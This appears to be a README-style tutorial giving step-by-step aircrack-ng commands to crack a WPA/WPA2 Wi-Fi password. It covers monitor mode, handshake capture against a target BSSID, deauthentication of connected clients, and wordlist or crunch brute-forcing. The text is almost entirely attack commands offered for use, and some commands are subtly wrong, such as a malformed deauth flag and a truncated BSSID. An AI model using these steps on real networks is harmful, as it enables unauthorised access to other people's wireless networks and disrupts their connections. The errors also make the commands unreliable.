 ### HOW TO CRACK WPA/WPA2 WIFI USING AIRCRACK-NG.


## TERMINAL 1


Step 1 :->  ifconfig

Step 2 :->  airmon-ng start wlan0 (the interface you want to put in monitor mode)

Step 3 :->  iwconfig (check that the wifi interface is in monitor mode or not )

Step # :->  aireplay-ng --test wlan0mon (to test that the interface is working fine in result you must 
get the maximum percentage)

Step 4 :->  airodump-ng wlan0mon 

Step 5 :->  airodump-ng -c 0 -w wpa --bssid 00:00:00:00:00 wlan0mon 

(-w WPA = is the file name you want to give to the captured file)

(-c 0= channel on which the target router is)

(--bssid = enter the target router bssid)




## TERMINAL 2


Step 6 :->  aireplay-ng -O 20 -a 00:00:00:00:00:00 wlan0mon (here type bssid of the target router which you got from the above command)

Step 7 :->  once the handshake is captured stop everything with CTRL + C.

Step 8 :->  now we will crack the password from the handshake file using the wordlist

Step 9 :->  aircrack-ng -w (path of the wordlist) filename(wpa.cap as it was defined above)

Step 10 :->  wireshark filename.cap (now scrool down till you find the deauthentication packets in the 
info tab)

### NOW WAIT FOR THE AIRCRACK-NG TO CRACK THE PASSWORD FROM THE GIVEN WORDLIST.

# WE CAN ALSO USE CRUNCH TO CRACK THE PASSWORD FROM CAPTURED HASH FILE USING PIPELINING SO WE DON'T HAVE TO SAVE THOUSANDS OF PASSWORDS FILE ON THE SYSTEM.

## Step 1 :->  crunch 8 10 0123456789 | aircrack-ng -w - filename.cap -e wifiname 
(8 10 = is the paswword length that it will start from 8 letters and test all the way till 10 letters)
